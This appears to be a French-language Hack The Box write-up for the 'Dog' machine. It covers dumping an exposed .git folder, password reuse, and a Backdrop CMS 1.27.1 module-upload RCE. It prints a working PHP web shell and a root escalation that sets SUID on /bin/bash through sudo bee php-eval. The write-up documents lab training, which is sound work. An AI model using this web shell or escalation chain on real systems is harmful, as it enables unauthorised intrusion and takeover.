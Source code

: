 ```yaml
---
title: Dog - Linux Easy - HTB Writeup 
description:
slug: Dog-htb-writeup-linux-easy
date: 2025-07-12 00:00:00+0000
image: Dog.png
categories:
    - Hack
    - Linux
    - Easy
tags:
    - GitHack
    - RCE
    - Sudo misconfiguration
# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Résumé
User: Identifiants de l'app web dans le code source extrait via GitHack + RCE via l'upload d'une archive.\
Root: Misconfiguration sudo du CLI bee.

## Enumeration
A l'aide d'un scan nmap, nous pouvons identifier un service web sur le port 80 et SSH sur le port 22.

{{< highlight go "hl_lines=1 3 8 21" >}}
$ nmap -Pn -p- 10.129.208.97 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 3836E83A3E835A26D789DDA9E78C5510
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-git: 
|   10.129.208.97:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
{{< /highlight >}}

## Utilisateur
### Dump git + RCE via shell.tar

Le scan nmap a souligné que le dossier `.git` de l'application web est exposé.\
Nous utilisons [GitHack](https://github.com/lijiejie/GitHack) afin d'obtenir une partie du code source.

{{< highlight go "hl_lines=1 4" >}}
$ ls
GitHack.py  index  lib  README.md
              
$ python GitHack.py http://dog.htb/.git
[+] Download and parse index file ...
[+] LICENSE.txt
[+] README.md
[+] core/.jshintignore
...

{{< /highlight >}}
Dans ces fichiers, nous pouvons trouver un username `tiffany` et un mot de passe `BackDropJ2024DS2024`
{{< highlight go "hl_lines=1 4" >}}
$ grep -ir dog.htb .
./dog.htb/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"

$ cat -n settings.php
...
    15  $database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
...
{{< /highlight >}}

Ces identifiants nous permettent de nous connecter à l'application web `http://dog.htb` en tant que `tiffany`.\
Nous pouvons trouver la version de `Backdrop` utilisée via l'onglet `Reports` puis `Status report`.\
Cette version `1.27.1` est vulnérable à une RCE.
![](Backdrop_version.png)

Cet [exploit](https://www.exploit-db.com/exploits/52021) pourrait fonctionner mais, notre instance de backdrop n'autorise pas l'installation de modules en utilisant des archives `.zip`.\
Nous pouvons trouver cette information via l'onget `Functionality` puis `Install new modules`.
![](Backdrop_zip.png)

Nous allons créer notre propre archive `.tar` en utilisant le code HTML/PHP et le fichier `.info` fournis dans l'exploit.\
Ensuite, sur la page d'installation des modules, nous uploadons notre archive.
{{< highlight go "hl_lines=1 19 36" >}}
$ cat shell.php   
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>

$ cat shell.info
type = module
name = Block
description = Controls the visual building blocks a page is constructed with. Blocks are boxes of content rendered into an area, or region, of a web page.
package = Layouts
tags[] = Blocks
tags[] = Site Architecture
version = BACKDROP_VERSION
backdrop = 1.x

configure = admin/structure/block

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662

$ tar cvf shell.tar shell.php shell.info
shell.php
shell.info
{{< /highlight >}}
![](Backdrop_shell_tar.png)
![](Backdrop_module_installed.png)

Même si notre nouveau module n'est pas listé dans la liste des modules de l'application web, nous pouvons y accéder via `/modules/shell/shell.php` comme spécifié dans l'[exploit](https://www.exploit-db.com/exploits/52021).
![](Backdrop_RCE.png)

Dans le dossier `/home`, on remarque deux utilisateurs `jobert` et `johncusack`.
![](Backdrop_users.png)\
En réutilisant le mot de passe `BackDropJ2024DS2024` précédemment trouvé, nous pouvons nous connecter à la machine via SSH en tant que `johncusack` et récupérer le flag `user.txt`.
{{< highlight go "hl_lines=1 2" >}}
$ ssh johncusack@dog.htb
johncusack@dog:~$ ls
user.txt
{{< /highlight >}}

## Root
### Misconfiguration sudo
On remarque que `johncusack` peut utiliser la CLI `bee` en tant que `root` grace à sudo.
{{< highlight go "hl_lines=1 7" >}}
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
{{< /highlight >}}
Cette CLI "permet aux developpeurs d'intérargir avec des sites Backdrop" comme spécifié sur leur [GitHub](https://github.com/backdrop-contrib/bee). Comme indiqué dans la documentation, nous pouvons éxécuter du code PHP.

{{< highlight go "hl_lines=1" >}}
johncusack@dog:~$ sudo bee
...
  eval
   ev, php-eval
        Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
...
{{< /highlight >}}

Premièrement, nous allons nous déplacer dans `/var/www/html` pour que `bee` puisse intérargir avec notre application backdrop.\
Ensuite, nous allons ajouter le flag SUID à `/bin/bash` afin d'obtenir un shell root et récupérer le flag `root.txt`.
{{< highlight go "hl_lines=2 5 6 8" >}}
johncusack@dog:~$ cd /var/www/html
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee php-eval 'exec("chmod u+s /bin/bash")'
johncusack@dog:/var/www/html$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
johncusack@dog:/var/www/html$ /bin/bash -p
bash-5.0# id
uid=1001(johncusack) gid=1001(johncusack) euid=0(root) groups=1001(johncusack)
bash-5.0# ls /root
root.txt
{{< /highlight >}}


## Ressources
> [GitHack](https://github.com/lijiejie/GitHack)\
> [Backdrop v1.27.1](https://www.exploit-db.com/exploits/52021)